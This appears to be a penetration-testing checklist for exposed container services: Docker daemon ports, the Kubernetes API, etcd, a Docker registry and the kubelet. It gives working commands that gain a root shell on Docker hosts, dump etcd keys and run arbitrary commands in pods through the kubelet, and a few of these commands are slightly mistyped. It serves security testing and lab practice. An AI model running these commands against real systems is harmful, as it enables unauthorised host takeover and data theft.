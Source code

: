 # Attackers - External Checklist

External attackers are typically looking for listening services. The list below is likely container related service ports and notes on testing/attacking them.

## 2375/TCP - Docker

This is the default insecure Docker port. It's an HTTP REST API, and usually access results in root on the host.

### Testing with Docker CLI

The easiest way to attack this is just use the docker CLI.

* `docker run -H tcp://[IP]:2375 info` - This will confirm access and return some information about the host
* `docker run -ti --privileged --net=host --pid=host --ipc=host --volume /:/host busybox chroot /host` - From [this](https://zwischenzugs.com/2015/06/24/the-most-pointless-docker-command-ever/) post. This will drop you into a root shell on the host.

---

## 2376/TCP - Docker

This is the default port for the Docker daemon where it requires credentials (client certificate), so you're unlikely to get far without that. If you do have the certificate and key for access :-

* `docker --tlsverify --tlscacert=ca.pem --tlscert=cert.pem --tlskey=key.pem -H=[IP]:2376 info` - format for the info command to confirm access.
* `docker --tlsverify --tlscacert=ca.pem --tlscert=cert.pem --tlskey=key.pem -H=[IP]:2376 run -ti --privileged --net=host --pid=host --ipc=host --volume /:/host busybox chroot /host` - root on the host

---

## 443/TCP, 6443/TCP, 8443/TCP - Kubernetes API server

Typical ports for the Kubernetes API server.

### Testing for access

Access to the `/version` endpoint will often work without valid credentials (using curl), as this is made available to unauthenticated users.

* `kubectl --insecure-skip-tls-verify --username=system:unauthenticated -shttps://[IP]:[PORT] version` - Test for access with kubectl
* `curl -k https://[IP]:[PORT]/version` - Test for access with curl

### Checking permissions

It's possible that unauthenticated users have been provided more access. You can check what permissions you have with

* `kubectl --insecure-skip-tls-verify --username=system:unauthenticated -shttps://[IP]:[PORT] auth can-i --list`

### Getting privileged access to cluster nodes

In the event that you have create pods access without authentication, see [attacker manifests](attacker_manifests.md) for useful approaches.

---

## 2379/TCP - etcd

The authentication model used by etcd, when supporting a Kubernetes cluster, is relatively straightforward. It uses client certificate authentication where **any** certificate issued by it's trusted CA will provide full access to all data. In terms of attacks, there are two options unauthenticated access and authenticated acces.

### Unauthenticated Access
**You can try out this attack using Kube Security Lab, using the etcd-noauth.yml playbook [here](https://github.com/raesene/kube_security_lab)**

A good general test for this is to use curl to access the `/version` endpoint. Although most endpoints don't respond well to curl in etcdv3, this one will and it'll tell you whether unauthenticated access is possible or not.

```bash
curl [IP]:2379/version
```

If that returns version information, it's likely you can get unauthenticated access to the database. A good first step is to drop all the keys in the database, using etcdctl. First you need to set this environment variable so that etcdctl knows it's talking to a v3 server.

```bash
export ETCDCTL_API=3
```

Then this command will enumerate all the keys in  the database

```bash
etcdctl --insecure-skip-tls-verify --insecure-transport=false --endpoints=https://[IP]:2379 get / --prefix --keys-only
```

with a list of keys to hand the next step is generally to find useful information, for further attacks.

---

## 5000/TCP - Docker Registry

Generally the goal of attacking a Docker registry is not to compromise the service itself, but to gain access to either read sensitive information stored in container images and/or modify stored container images.

### Enumerating repositories/images

Whilst you can do this with just curl, it's probably more efficient to use some of the [registry interaction tools](tools_list.md#container-registry-tooling). For example  `go-pillage-reg` will dump a list of the repositories in a a registry as well as the details of all the manifests of those images.


---

## 10250/TCP - kubelet
**You can try out this attack using Kube Security Lab, using the rwkubelet-noauth.yml playbook [here](https://github.com/raesene/kube_security_lab)**

The main kubelet port will generally be present on all worker nodes, and *may* be present on control plane nodes, if the control plane components are deployed as containers (e.g. with kubeadm). Usually authentication to this port is via client certificates and there's usually no authorization in place.

Trying the following request should either give a 401 (showing that a valid client certificate is required) or return some JSON metrics information (showing you have access to the kubelet port)

```bash
curl -k https://[IP]:10250/metrics
```

Assuming you've got access you can then execute commands in any container running on that host. As the kubelet controls the CRI (e.g. Docker) it's typically going to provide privileged access to all the containers on the host.

The easiest way to do this is to use Cyberark's [kubeletctl](https://github.com/cyberark/kubeletctl). First scan the host to show which pods can have commands executed in them

```bash
kubeletctl scan rce --server [IP]
```

Then you can use this command to execute commands in one or more of the vulnerable pods. just replace `whoami` with the command of your choice and fill in the details of the target pod, based on the information returned from the scan command

```bash
 kubeletctl run "whoami" --namespace [NAMESPACE] --pod [POD] --container [CONTAINER] --server [IP]
```

If you don't have `kubeletctl` available but do have `curl` you can use it to do the same thing. First get the pod listing

```bash
curl -k https://[IP]:10250/pods/ | jq
```

From that pull out the namespace, pod name and container name that you want to run a command in, then issue this command filling in the blanks appropriately

```bash
https://[IP]:10250/run/[Namespace]/[Pod]/[Container] -k -XPOST -d "cmd=[COMMAND]"
```

---

## 10255/TCP - kubelet read-only

The kubelet read-only port is generally only seen on older clusters, but can provide some useful information disclosure if present. It's an HTTP API which will have no encryption and no authentication requirements on it, so it's easy to interact with.

The most useful endpoint will be `/pods/` so retrieving it using curl (as below) and looking at the output for useful information, is likely to be the best approach.


```bash
curl http://[IP]:10255/pods/ | jq
```